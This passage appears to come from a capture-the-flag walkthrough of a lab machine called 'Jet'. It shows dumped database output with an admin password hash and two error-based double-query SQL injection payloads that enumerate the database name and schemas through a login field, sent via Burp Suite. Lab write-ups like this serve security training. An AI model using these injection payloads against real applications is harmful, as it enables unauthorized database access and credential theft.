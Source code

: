 ```
[12:14:34] [INFO] resumed: 'admin'
Database: jetadmin
Table: users
[1 entry]
+----+------------------------------------------------------------------+----------+
| id | password                                                         | username |
+----+------------------------------------------------------------------+----------+
| 1  | 97114847aa12500d04c0ef3aa6ca1dfd8fca7f156eeb864ab9b0445b235d5084 | admin    |
+----+------------------------------------------------------------------+----------+
```

  

We saw that it can be enumerated with a `sql injection`time based, however when sending only one `'`as a username field it returns a 302 but first a`error`

[

![](https://xchg2pwn.github.io/fortresses/jet/16.png)





Based on an [article](https://securiumsolutions.com/blog/sql-injection-by-double-query-securiumsolutions/) we can create an `query`sqli `error based` `doble query`to list the database in use with`database()`

```
' or (select 1 from(select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a)-- -  
```

  

Keep in mind that to send it we need `urlcondearlo`to do it from Burpsuite with `Ctrl U`, we send it and see the response`jetadmin`

[

![](https://xchg2pwn.github.io/fortresses/jet/17.png)





We follow the same logic to read the databases, as it returns several results we will limit ourselves to one with `limit 0,1`, we see`information_schema`

```
' or (select 1 from(select count(*),concat((select mid((ifnull(cast(schema_name as nchar),0x20)),1,54) from information_schema.schemata limit 0,1),floor(rand(0)*2))x from information_schema.plugins group by x)a)-- -  
```

  
[

![](https://xchg2pwn.github.io/fortresses/jet/18.png)


